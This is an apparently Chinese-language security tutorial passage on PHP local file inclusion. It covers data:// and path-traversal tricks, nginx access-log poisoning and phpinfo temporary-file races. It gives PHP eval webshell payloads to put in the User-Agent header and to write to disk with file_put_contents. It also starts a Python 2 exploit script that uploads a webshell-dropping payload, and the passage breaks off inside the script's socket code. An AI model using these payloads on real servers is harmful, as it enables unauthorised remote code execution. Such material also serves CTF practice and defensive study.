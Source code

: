 - 文件名可控：可以控制协议头，优先使用data协议
- 后缀可控：可以考虑路径跳转，参考file协议  ../../../../

#### nginx日志包含

nginx 的默认路径 `/var/log/nginx/access.log`

这里我们要使用user-agent，将恶意代码写到里边，如果是其他方式包含，代码将会被编码导致无法执行

![image-20220909192728299](https://blog-1308152021.cos.ap-beijing.myqcloud.com/image/202209091927344.png)

然后再读取`/var/log/nginx/access.log`执行日志里的恶意代码

常见出错地方（为正确内容）

- 包含的文件路径错误（`/var/log/nginx/access.log）`
- 写入的UA语法错误（`<?php eval($_POST[1]); ?>`）
- 转义错误（`file_put_contents("1.php","<?php eval($_POST[1]);?>");`）

php语法在双引号中的时需要转义，否则判断为空

### 临时文件包含

phpinfo(); 竞争上传，这里有个python2的脚本

```
#!/usr/bin/python 
import sys
import threading
import socket

def setup(host, port):
    TAG="Security Test"
    PAYLOAD="""%s\r
<?php file_put_contents('/tmp/g', '<?=eval($_REQUEST[1])?>')?>\r""" % TAG
    REQ1_DATA="""-----------------------------7dbff1ded0714\r
Content-Disposition: form-data; name="dummyname"; filename="test.txt"\r
Content-Type: text/plain\r
\r
%s
-----------------------------7dbff1ded0714--\r""" % PAYLOAD
    padding="A" * 5000
    REQ1="""POST /phpinfo.php?a="""+padding+""" HTTP/1.1\r
Cookie: PHPSESSID=q249llvfromc1or39t6tvnun42; othercookie="""+padding+"""\r
HTTP_ACCEPT: """ + padding + """\r
HTTP_USER_AGENT: """+padding+"""\r
HTTP_ACCEPT_LANGUAGE: """+padding+"""\r
HTTP_PRAGMA: """+padding+"""\r
Content-Type: multipart/form-data; boundary=---------------------------7dbff1ded0714\r
Content-Length: %s\r
Host: %s\r
\r
%s""" %(len(REQ1_DATA),host,REQ1_DATA)
    #modify this to suit the LFI script   
    LFIREQ="""GET /lfi.php?file=%s HTTP/1.1\r
User-Agent: Mozilla/4.0\r
Proxy-Connection: Keep-Alive\r
Host: %s\r
\r
\r
"""
    return (REQ1, TAG, LFIREQ)

def phpInfoLFI(host, port, phpinforeq, offset, lfireq, tag):
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s2 = socket.socket(socket.AF_INET, socket.SOCK_STREAM)    

```